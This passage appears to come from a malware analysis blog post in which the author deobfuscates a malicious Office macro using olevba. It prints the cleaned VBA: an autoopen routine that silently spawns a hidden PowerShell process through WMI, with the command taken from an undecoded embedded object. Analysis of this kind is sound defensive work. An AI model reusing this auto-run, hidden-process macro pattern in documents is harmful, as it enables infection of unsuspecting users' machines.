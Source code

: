 I took a look at the `olevba` documentation and learned about the `--reveal`
experimental feature. In this case, it worked well and this feature cleaned the
code a bit. It was still obfuscated but less weird (output below truncated):

```
Attribute VB_Name = "zC7wlka"
Sub K9hj1nG()
   Debug.Print "724516UPOp3Hrt23361vC9PPmCKrjITKvEv"
Debug.Print "20994u_8YY68791454rbk4PQHiqapjj9"
Debug.Print "942653pqQI0T2226126N7OT4kZ6j2ENjS"
   Debug.Print "387127wjf7biL2064nE0OG8GNXHVKT"
Debug.Print "255590kPaztnd9626534nc7FkKVitIImYJ"
Debug.Print "763124lLo5VRP611629tJnnqaEPdjCjRp"
End Sub
Sub autoopen( )
   Debug.Print "588496Bn5Mps680785i9QMw62Vw29iIrvf"
Debug.Print "984870ZavHKq723615HYijaGWMHILLpV"
Debug.Print "58974piKRd2450645jwOkskOoIvNiL"
lc8cJsPt
   Debug.Print "860836EYdLCWj544391w0whi5Mmcto3"
Debug.Print "12319b1Pp9wzc397829Xozjntl2HkNCop"
Debug.Print "826309uz3s8R5980Z6jEJwMSGtCq"
End Sub

[...]
```

I went ahead and manually cleaned the code even more but I had two references
to another OLE "thing" named `Swlfot9` that I could decode. I knew it had
something to do with [PowerShell](https://en.wikipedia.org/wiki/PowerShell)
given the `"powe"` string but I could not find anything else...

```
Attribute VB_Name = "zC7wlka"

Sub autoopen()
	lc8cJsPt
End Sub

Sub lc8cJsPt()
	Set Win32ProcessstartupObj = GetObject("winmgmts:Win32_ProcessStartup")
	Win32ProcessstartupObj.ShowWindow = 0

	Set Win32ProcessObj = GetObject("winmgmts:Win32_Process")
    Win32ProcessObj.Create "powe" + Swlfot9.FbFMIBR + Swlfot9.bLJAPOF,
	Null,
	Win32ProcessstartupObj,
	ProcessId
End Sub
```

I saw the name `Swlfot9` in the very first `olevba` output though, so I knew
that something was still there, but I could just not see it. I tried some other
oletools but it was a dead-end :cry:
